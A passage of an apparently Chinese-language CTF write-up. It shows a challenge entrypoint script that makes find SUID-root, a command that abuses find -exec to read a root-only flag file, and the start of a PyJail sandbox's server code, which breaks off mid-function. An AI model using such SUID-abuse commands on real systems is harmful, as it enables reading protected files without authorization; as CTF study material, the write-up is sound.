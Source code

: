 查看entrypoint.sh就可以知道了find有suid权限，也可以`find / -perm -4000 -type f 2>/dev/null`

```bash
#!/bin/sh

echo $FLAG > /m1n1FL@G
echo "\nNext, let's tackle the more challenging misc/pyjail">> /m1n1FL@G
chmod 600 /m1n1FL@G
chown root:root /m1n1FL@G

chmod 4755 /usr/bin/find

useradd -m minilUser
export FLAG=""
chmod -R 777 /app
su minilUser -c "python /app/app.py"
```

然后`find . -exec cat /m1* \; >app.py`

## PyJail-Misc

```python
import socketserver
import sys
import ast
import io

with open(__file__, "r", encoding="utf-8") as f:
    source_code = f.read()

class SandboxVisitor(ast.NodeVisitor):
    def visit_Attribute(self, node):
        if isinstance(node.attr, str) and node.attr.startswith("__"):
            raise ValueError("Access to private attributes is not allowed")
        self.generic_visit(node)

def safe_exec(code: str, sandbox_globals=None):
    original_stdout = sys.stdout
    original_stderr = sys.stderr

    sys.stdout = io.StringIO()
    sys.stderr = io.StringIO()

    if sandbox_globals is None:
        sandbox_globals = {
            "__builtins__": {
                "print": print,
                "any": any,
                "len": len,
                "RuntimeError": RuntimeError,
                "addaudithook": sys.addaudithook,
                "original_stdout": original_stdout,
                "original_stderr": original_stderr
            }
        }

    try:
        tree = ast.parse(code)
        SandboxVisitor().visit(tree)

        exec(code, sandbox_globals)
        output = sys.stdout.getvalue()

        sys.stdout = original_stdout
```